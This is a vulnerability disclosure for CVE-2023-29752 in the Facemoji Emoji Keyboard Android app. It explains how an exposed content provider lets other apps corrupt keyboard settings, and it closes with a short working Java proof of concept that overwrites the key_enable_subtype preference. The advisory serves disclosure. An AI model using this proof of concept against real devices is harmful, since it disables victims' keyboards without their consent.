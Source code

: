 # Escalation of Privileges exists in Facemoji Emoji Keyboard（CVE-2023-29752）

Vendor: EKATOX APPS(https://www.facemojikeyboard.com/)

Affected product: Facemoji Emoji Keyboard(com.simejikeyboard)

Version: 2.9.1.2

Download link：https://play.google.com/store/apps/details?id=com.simejikeyboard

Description of the vulnerability for use in the CVE：An issue found in Facemoji Emoji Keyboard v.2.9.1.2 allows unauthorized apps to cause escalation of privilege attacks by manipulating the component.

Additional information: The Facemoji Emoji Keyboard application allows unauthorized applications to use the methods provided in its exposed components to modify data in the SharedPreference file, which is loaded at application launch and affects critical application functionality. Specifically, an attacker is able to modify the data in the profile_enable_subtype.xml file by constructing an intent carrying malicious data. When the key_enable_subtype field is modified to an arbitrary string, the virtual keyboard that comes with this application will not be able to output any characters. More seriously, when the key_enable_subtype and key_subtype_enable_layout fields are modified to any string at the same time, the virtual keyboard will not pop up when any input box is clicked, and the application will keep reporting errors, leading to escalation of privilege attacks.

poc:

```java
  public void attack_keybord(){
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.simejikeyboard.dprefrenceprovider/string/profile_enable_subtype/xxx");
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(10240);
            contentValues.put("key","key_enable_subtype");
            contentValues.put("value",randomString);
            contentResolver.insert(uri,contentValues);
    }
```